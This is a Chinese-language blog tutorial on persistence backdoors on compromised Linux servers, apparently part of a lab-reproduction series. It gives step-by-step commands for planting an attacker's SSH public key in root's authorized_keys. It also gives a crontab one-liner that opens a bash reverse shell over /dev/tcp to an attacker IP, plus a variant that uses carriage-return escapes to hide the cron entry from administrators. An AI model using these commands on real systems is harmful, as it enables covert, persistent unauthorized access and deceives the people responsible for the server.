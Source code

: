 ```yaml
---
title: linux 服务器常见的留后门方式（二）
date: 2022-4-2 23:36:35
tags: [Backdoor,Linux,Kali]
categories: 
 - 后门-Backdoor
cover: https://res.cloudinary.com/sycamore/image/upload/v1682441841/Typera/2023/04/7e00f34b8462535fcbd72b5a18b714e9.png
---
```


:::primary
整理好了搭环境的文章：[LINUX后门复现环境搭建](https://blog.sycamore.top/2022/03/21/LINUX%E5%90%8E%E9%97%A8%E5%A4%8D%E7%8E%B0%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/)
:::

攻击者在通过各种手段获得服务器的控制权之后，通常会在服务器上布置一些脚本、进程、链接，即所谓的**后门**。其目的是，方便攻击者以后对该服务器进行持久性的攻击。

其中，在linux服务器上留后门的常见技术，**本文中会提及**如下几种：
- SSH公钥免密
- crontab后门
...

## SSH公钥免密

简而言之，**SSH公钥免密**就是，将**攻击者**生成的 **ssh公钥**写到**目标服务器**的`/root/.ssh/authorized_keys`中（手动在目标机上完成注册），
然后**攻击者**就可以利用对应的**私钥**免密登录。

**实现：**
1. 使用 **Xshell** 的 工具 -> 新建用户密钥生成向导，完成**ssh公钥、私钥**的生成：![image-20230426010853712](https://res.cloudinary.com/sycamore/image/upload/v1682442537/Typera/2023/04/0c7400e842c42ccbcd324c9147cf6c24.png)
（填入密码)
<br>
2. 保存生成的公钥文件（id_rsa_2048.pub），传到**目标服务器**上，![image-20230426010925673](https://res.cloudinary.com/sycamore/image/upload/v1682442569/Typera/2023/04/8a2edc41bc3463490d0617bcbbd9acd1.png)
<br>
3. 寻找 **authorized_keys** 文件，命令`find -name authorized_keys`，
如果没有，就通过命令`touch /root/.ssh/authorized_keys`创建。
<br>
4. 命令`ssh-keygen -t rsa`开启免密登录功能，
<br>
5. 通过命令`cat 公钥路径 >> /root/.ssh/authorized_keys`把公钥写入到**authorized_keys**，完成注册
<br>
6. 修改文件权限`chmod 600 ~/.ssh/authorized_keys`
`chmod 700 ~/.ssh`
<br>



7. 攻击者使用**Xshell**生成的**私钥**和之前填写的**密码**，登录目标服务器![image-20230426010955314](https://res.cloudinary.com/sycamore/image/upload/v1682442599/Typera/2023/04/f0b36186750c7e6ae6e0cfb6e31536aa.png)![image-20230426011015095](https://res.cloudinary.com/sycamore/image/upload/v1682442619/Typera/2023/04/3707348bcf16ceccd18bb0594ff0933d.png)

## crontab后门

**Crond**服务启动后，会**定期**（默认一分钟检查一次）检查它的配置文件中，是否有要执行的任务。
如果有，就会根据**预先设定**的**定时任务规则**自动执行该任务。
crontab是用来定期执行程序的命令，
我们可以通过**crontab**命令制造定时后门：
`(crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/192.168.158.132/2333;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -`

**解释：**
`echo '*/60 * * * *'`：设定每60分钟执行一次；
`exec 9<>/dev/tcp/192.168.158.132/2333`：利用bash提供的功能，对`/dev/tcp/`开头的字符串进行**解析**，指定**服务器IP**为：192.168.158.132（**攻击机**IP），**端口号**为 2333，指定描述符为9，建立网络连接；
`exec 0<&9;exec 1>&9 2>&1;`：**文件描述符** 0：stdin，1：stdout，把标准输入输出**都**重定向到描述符9；
`/bin/bash --noprofile -i`：开一个Shell。
其实就是利用 Bash **反弹**一个**Shell**到指定的攻击者IP

（ubuntu默认**没开**bash的网络重定向选项，需要加上`–enable-net-redirections`重新编译bash）

**隐藏：**
但是这样的一个后门，管理员直接执行`crontab -l`就能看到我们设定的定时任务。
![image-20230426011055514](https://res.cloudinary.com/sycamore/image/upload/v1682442659/Typera/2023/04/e8f07ae16e6573488c17eeea6f3339f2.png)
这个命令其实是在读取 `/var/spool/cron/crontabs/root`文件。
所以，我们可以利用cat的一个缺陷，使用一些**转义字符**，比如 \r 回车符 \n 换行符 \f 换页符，来**隐藏**我们不想让管理员看到的命令：
`(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/192.168.158.132/2333;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -`
![image-20230426011110789](https://res.cloudinary.com/sycamore/image/upload/v1682442674/Typera/2023/04/0af7f80743588f2bae6b80f3903e55c6.png)但是，若是使用`cat -A /var/spool/cron/crontabs/root`还是可以看到我们隐藏的东西的。
